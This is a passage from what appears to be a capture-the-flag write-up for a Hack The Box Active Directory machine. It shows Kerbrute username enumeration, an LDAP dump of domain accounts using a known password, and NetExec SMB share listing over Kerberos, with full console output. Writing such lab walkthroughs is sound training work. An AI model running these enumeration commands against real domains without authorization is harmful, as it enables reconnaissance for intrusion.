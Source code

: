 We get back the error `STATUS_NOT_SUPPORTED`. We can verify if Rosa is a valid user by running Kerbrute. I just made a small wordlist that included Rosa along with some default accounts.

```console
$ kerbrute userenum -d vintage.htb --dc 10.10.11.45 users.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 12/31/24 - Ronnie Flathers @ropnop

2024/12/31 10:26:02 >  Using KDC(s):
2024/12/31 10:26:02 >   10.10.11.45:88

2024/12/31 10:26:02 >  [+] VALID USERNAME:       Administrator@vintage.htb
2024/12/31 10:26:02 >  [+] VALID USERNAME:       P.Rosa@vintage.htb
2024/12/31 10:26:02 >  Done! Tested 3 usernames (2 valid) in 0.025 seconds
```

We see that Rosa is indeed a valid user, so there is something odd going on here. Something else thats worth a try is doing further enumeration over LDAP. Using `ldapsearch`, we can try to get a list of all domain users.

```console
$ ldapsearch -H ldap://10.10.11.45 -x -b "DC=VINTAGE,DC=HTB" -D 'vintage\p.rosa' -w 'Rosaisbest123' '(objectClass=User)' "sAMAccountName" | grep sAMAccountName | cut -d ' ' -f 2

Administrator
Guest
DC01$
krbtgt
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

After using some common queries over ldap, I decided to retry using NetExec with the `-k` flag which uses Kerberos as authentication protocol instead of NTLM (default).

```console
$ nxc smb dc01.vintage.htb -u P.Rosa -p Rosaisbest123 -k --shares
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123
SMB         dc01.vintage.htb 445    dc01             [*] Enumerated shares
SMB         dc01.vintage.htb 445    dc01             Share           Permissions     Remark
SMB         dc01.vintage.htb 445    dc01             -----           -----------     ------
SMB         dc01.vintage.htb 445    dc01             ADMIN$                          Remote Admin
SMB         dc01.vintage.htb 445    dc01             C$                              Default share
SMB         dc01.vintage.htb 445    dc01             IPC$            READ            Remote IPC
SMB         dc01.vintage.htb 445    dc01             NETLOGON        READ            Logon server share
SMB         dc01.vintage.htb 445    dc01             SYSVOL          READ            Logon server share
```